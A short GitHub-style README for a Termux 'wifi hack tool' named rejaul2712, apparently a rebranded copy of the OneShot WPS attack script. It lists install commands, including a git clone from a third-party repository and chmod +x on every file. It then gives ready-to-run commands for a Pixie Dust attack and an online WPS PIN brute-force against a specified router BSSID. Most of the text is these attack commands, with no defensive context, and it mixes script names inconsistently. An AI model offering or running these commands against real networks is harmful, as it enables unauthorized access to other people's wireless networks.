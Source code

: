 <!--- mark down --->
---
# wifi hack tool all run to rejaul
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

git clone https://github.com/princeicon2712/rejaul2712.git

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

-.[x]Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

``` wps router push button:- sudo python oneshot.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
